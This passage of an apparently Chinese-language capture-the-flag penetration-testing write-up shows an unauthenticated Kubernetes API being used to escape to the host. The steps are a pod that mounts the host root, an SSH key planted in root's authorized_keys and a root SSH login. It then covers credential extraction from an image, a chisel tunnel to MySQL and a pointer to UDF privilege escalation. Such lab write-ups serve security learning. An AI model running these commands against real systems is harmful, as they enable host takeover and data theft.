└─$ ./kubectl --insecure-skip-tls-verify -s https://139.*.*.*:10003/ get pods
Please enter Username: a
Please enter Password: NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-58d48b746d-d6x8t   1/1     Running   3          314d
nginx-deployment-58d48b746d-pg4gl   1/1     Running   3          314d
nginx-deployment-58d48b746d-s2vwl   1/1     Running   3          314d
nginx-deployment-58d48b746d-x26mr   1/1     Running   3          314d
```

查看 pod 资源

```bash
┌──(randark ㉿ kali)-[~/tools]
└─$ ./kubectl --insecure-skip-tls-verify -s https://139.*.*.*:10003/ describe pod nginx-deployment-58d48b746d-d6x8t
Please enter Username: a
Please enter Password: Name:             nginx-deployment-58d48b746d-d6x8t
Namespace:        default
Priority:         0
Service Account:  default
Node:             ubuntu-k8s/172.22.14.37
Start Time:       Fri, 06 Oct 2023 20:33:56 +0800
Labels:           app=nginx
                  pod-template-hash=58d48b746d
Annotations:      <none>
Status:           Running
IP:               10.244.0.36
IPs:
  IP:           10.244.0.36
Controlled By:  ReplicaSet/nginx-deployment-58d48b746d
Containers:
  nginx:
    Container ID:   docker://f7dfc9dc10e1efb17150bffcf6c32214cfbe3d360b938ae3ca3252e43b00dced
    Image:          nginx:1.8
    Image ID:       docker-pullable://nginx@sha256:c97ee70c4048fe79765f7c2ec0931957c2898f47400128f4f3640d0ae5d60d10
    Port:           <none>
    Host Port:      <none>
    State:          Running
      Started:      Fri, 16 Aug 2024 13:57:28 +0800
    Last State:     Terminated
      Reason:       Completed
      Exit Code:    0
      Started:      Mon, 25 Mar 2024 16:55:49 +0800
      Finished:     Fri, 16 Aug 2024 13:56:04 +0800
    Ready:          True
    Restart Count:  3
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from default-token-zqldf (ro)
Conditions:
  Type              Status
  Initialized       True
  Ready             True
  ContainersReady   True
  PodScheduled      True
Volumes:
  default-token-zqldf:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  default-token-zqldf
    Optional:    false
QoS Class:       BestEffort
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

于是，可以尝试编写一个 pod，将宿主机的根目录映射进去之后，指定 ssh 私钥并连接，即可对宿主机实现 getshell

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ cat test.yaml
apiVersion: v1
kind: Pod
metadata:
  name: nginx-deployment
spec:
  containers:
  - image: nginx:1.8
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test
  volumes:
  - name: test
    hostPath:
      path: /

┌──(randark ㉿ kali)-[~/tmp]
└─$ ./kubectl --insecure-skip-tls-verify -s https://139.*.*.*:10003/ apply -f test.yaml
-bash: ./kubectl: No such file or directory

┌──(randark ㉿ kali)-[~/tmp]
└─$ ~/tools/kubectl --insecure-skip-tls-verify -s https://139.*.*.*:10003/ apply -f test.yaml
Please enter Username: a
Please enter Password:
pod/nginx-deployment created

┌──(randark ㉿ kali)-[~/tmp]
└─$ ~/tools/kubectl --insecure-skip-tls-verify -s https://139.*.*.*:10003/ get pods
Please enter Username: a
Please enter Password:
NAME                                READY   STATUS                 RESTARTS   AGE
nginx-deployment                    1/1     Running                0          7s
nginx-deployment-58d48b746d-d6x8t   1/1     Running                3          314d
nginx-deployment-58d48b746d-pg4gl   1/1     Running                3          314d
nginx-deployment-58d48b746d-s2vwl   1/1     Running                3          314d
nginx-deployment-58d48b746d-x26mr   1/1     Running                3          314d
```

pod 成功部署之后，就可以开始写入 SSH 私钥

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ ~/tools/kubectl --insecure-skip-tls-verify -s https://139.*.*.*:10003/ exec -it nginx-deployment -- /bin/bash
Please enter Username: a
Please enter Password:
root@nginx-deployment-1:/# whoami
root
root@nginx-deployment-1:/# echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCvIVUtOgQh3gYfAXyDcjh3hrXoqyNsV5EKH+LWRDTupdISFx64HX+QG/pvM0fTF9RnAwbZEVL7MzO1bHw+9yLeAHjLgxXQP+e3cHkhnX/5Qkt+6TF3woTI/3zFt/E1sArvs5bRyR028huFN5kyjwPBnedrbgM+gHI2XcYj/Rih53EwpaUIF5AW0RzWuHzvwz385FOZ5M1uplTORyjI3M0YmXQkZhn9b/43SH7SiwzAOXdincKYD0k9J7kmtQlqcY3/gWeUXLZVvj3N5rxg2Q9NSFq0ISSR1DR8baymN+877cuAXufTdDhlbaU8qX1ZNYRC2Pbc4qGlwvB0wfsfT32yJyo82YEFVkOd+z1Nj1GmgSro91EaPFckCVckAgslwc8e6JXTq598yzWck2fiSR9HJ1BQ60Dfog+wSBGozJUDmn+T39OaQKrlADEI6belRTrEdDVriMXia4lHtdT/mdtSHAjvWswy4CfX55fNH5PUKVlt5Q8s6qS3+/ZZuNkBGZU= randark@kali" > /mnt/root/.ssh/authorized_keys
root@nginx-deployment-1:/# exit
exit
```

然后就可以尝试连接宿主机了

```bash
┌──(randark ㉿ kali)-[~/tmp]
└─$ proxychains4 -q ssh -i id_rsa root@172.22.14.37
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-213-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Welcome to Alibaba Cloud Elastic Compute Service !

Last login: Fri Aug 16 16:37:43 2024 from 172.22.14.6
root@ubuntu-k8s:~# whoami
root
```

## 172.22.14.37 Mysql 历史记录

发现 `/root` 目录下存在有 `.mysql_history` 文件，查看 mysql 历史记录

```plaintext
_HiStOrY_V2_
show\040databases;
create\040database\040flaghaha;
use\040flaghaha
DROP\040TABLE\040IF\040EXISTS\040`f1ag`;
CREATE\040TABLE\040`flag06`\040(
`id`\040int\040DEFAULT\040NULL,
\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL
)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
CREATE\040TABLE\040`flag06`\040(\040`id`\040int\040DEFAULT\040NULL,\040\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL\040)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
show\040tables;
drop\040table\040flag06;
DROP\040TABLE\040IF\040EXISTS\040`f1ag`;
CREATE\040TABLE\040`flag04`\040(
`id`\040int\040DEFAULT\040NULL,
\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL
)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
CREATE\040TABLE\040`flag04`\040(\040`id`\040int\040DEFAULT\040NULL,\040\040\040`f1agggggishere`\040varchar(255)\040DEFAULT\040NULL\040)\040ENGINE=MyISAM\040DEFAULT\040CHARSET=utf8;
INSERT\040INTO\040`flag`\040VALUES\040(1,\040'ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==');
INSERT\040INTO\040`flag04`\040VALUES\040(1,\040'ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==');
exit
```

可读性较差，使用 `echo` 提升可读性

```sql title="echo -ne $(cat .mysql_history)"
_HiStOrY_V2_
show databases;create database flaghaha;
use flaghaha DROP TABLE IF EXISTS `f1ag`;
CREATE TABLE `flag06` (`id` int DEFAULT NULL,   `f1agggggishere` varchar(255) DEFAULT NULL ) ENGINE=MyISAM DEFAULT CHARSET=utf8;
CREATE TABLE `flag06` (`id` int DEFAULT NULL,   `f1agggggishere` varchar(255) DEFAULT NULL ) ENGINE=MyISAM DEFAULT CHARSET=utf8;
show tables;
drop table flag06;
DROP TABLE IF EXISTS `f1ag`;
CREATE TABLE `flag04` (`id` int DEFAULT NULL,   `f1agggggishere` varchar(255) DEFAULT NULL ) ENGINE=MyISAM DEFAULT CHARSET=utf8;
CREATE TABLE `flag04` (`id` int DEFAULT NULL,   `f1agggggishere` varchar(255) DEFAULT NULL ) ENGINE=MyISAM DEFAULT CHARSET=utf8;
INSERT INTO `flag` VALUES (1, 'ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==');
INSERT INTO `flag04` VALUES (1, 'ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==');
exit
```

## flag - 04

```plaintext
flag{da69c459-7fe5-4535-b8d1-15fff496a29f}
```

## 172.22.14.37 Mysql UDF 提权

在 `Harbor` 中，有 `project/projectadmin` 这个镜像，同样的方法获取下来进行分析，在其中的 jar 包中可以得到以下信息

```plaintext
spring.datasource.url=jdbc:mysql://172.22.10.28:3306/projectadmin?characterEncoding=utf-8&useUnicode=true&serverTimezone=UTC
spring.datasource.username=root
spring.datasource.password=My3q1i4oZkJm3
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
```

然后就可以尝试攻击 `172.22.10.28:3306` 这个 Mysql 服务

首先，先将 Mysql 服务转发出来

```bash title="172.22.14.6"
(remote) www-data@ubuntu-oa:/tmp$ ./chisel_1.9.1_linux_amd64 client 172.28.23.17:1337 R:0.0.0.0:10004:172.22.10.28:3306
2024/08/16 16:25:08 client: Connecting to ws://172.28.23.17:1337
2024/08/16 16:25:08 server: session#16: tun: proxy#R:10003=>172.22.14.37:6443: Listening
2024/08/16 16:25:08 client: Connected (Latency 48.219025ms)
```

然后使用 [SafeGroceryStore/MDUT: MDUT - Multiple Database Utilization Tools](https://github.com/SafeGroceryStore/MDUT) 进行利用



成功连接



执行 UDF 提权即可


